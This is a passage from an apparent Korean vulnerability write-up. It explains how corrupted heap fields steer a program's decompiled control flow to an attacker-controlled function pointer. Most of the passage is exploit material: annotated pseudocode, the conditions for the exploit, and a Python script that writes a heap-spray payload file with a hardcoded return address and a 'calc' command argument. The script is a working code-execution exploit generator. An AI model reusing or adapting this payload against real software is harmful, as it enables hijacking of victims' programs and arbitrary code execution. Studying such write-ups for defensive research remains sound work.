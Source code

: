 ```c++
            ...
            if ( over[2] )
                goto LABEL_195;
            ...
            if ( !over[3] )
                goto LABEL_200;	
            ...
            v50 = (int (__stdcall *)(int, _DWORD, _DWORD *, unsigned int, int, int, _DWORD))over[393];
            if ( !v50 )
                return 1;
            if ( (a4 & 0x10) == 0 || (*(_DWORD *)(over[6] + 36) & 0x100) != 0 )
                return v50(a1, over[6], a3, a4, a5, a6, over[394]);
    }
}

```

a1->pfuncC 함수 안의 코드는 너무 긴 관계로 최대한 필요한 코드만 의사 코드로 줄여서 작성해보았습니다.

a1->dword10 의 객체를 쉽게 over(DWORD array[])로 네이밍 했습니다.

최대한 불필요한 if문은 타지않고 default 분기에 있는 v50 함수포인터에 도달하는 것이 가장 중요합니다.

왜냐하면 중간에 한곳이라도 불필요한 함수에 들어가게 된다면 return 값이 1이 되지 않아서 반복을 돌지 못하거나, 

손상된 힙주소로 인해 Exploit 되기 전에 예외 처리 될 수 있기 때문입니다.



```
#1 == over[2] 
#0 == over[399], over[3] 
#esi == over[0]
#ret == over[393]
```

여기서 Exploit 조건은 다음과 같습니다.

over[2]의 경우 0이 아닌 값, over[399]와 over[3]의 값은 0, over[0]에 공격 인자를 넣을 esi 값, over[393]에 call할 ret값을 넣어준다면 공격에 성공할 수 있습니다.



```python
f = open('C:\\Users\\user\\Desktop\\payload', 'wb')
string = b''
a = 0x2000-0x80+0x58
for i in range(a, 0, -0x80):
	string += (i+0x640).to_bytes(2, 'big') #0x640 is len(payload)
f.write(string) #size section
f.write(b'===='*4)

ret = (0xB39BFB).to_bytes(4, 'little')
cmd = b'c\x00a\x00l\x00c\x00'
payload = b''
payload += cmd	#esi a7[0]
payload += b'\x00\x00\x00\x01' #a7[2]
payload += b'\x00\x00\x00\x00' #a7[3]
payload += b'AAAA'*389 #dummy
payload += ret #ret a7[393]
payload += b'AAAA'*5 #dummy
payload += b'\x00\x00\x00\x00' #a7[399]

d = b'AAAA' + b'\x00\x00\x00\x00' #dummy
for i in range(a, 0, -0x80):
	f.write(d*int(i/8) + payload) #data section

f.close()
```